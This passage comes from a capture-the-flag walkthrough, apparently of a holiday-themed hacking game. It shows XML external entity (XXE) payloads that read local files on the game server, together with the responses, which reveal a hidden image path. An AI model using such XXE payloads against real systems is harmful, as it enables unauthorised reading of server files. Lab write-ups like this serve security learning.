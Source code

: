 This works and returns this:

```
{
  "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
  "droppedOn": "none",
  "visit": "none"
}
```

Now, lets try the same but with the blue ring.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt"> ]>
<root>
   <imgDrop>&xxe;</imgDrop>
   <reqType>xml</reqType>
   <who>princess</who>
</root>
```

And we get this:

```
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

This doesn't seem to give us any extra information. Let's try it with the last colour ring that was in the game. Silver ring (silverring.txt):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
   <imgDrop>&xxe;</imgDrop>
   <reqType>xml</reqType>
   <who>princess</who>
</root>
```

```
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```
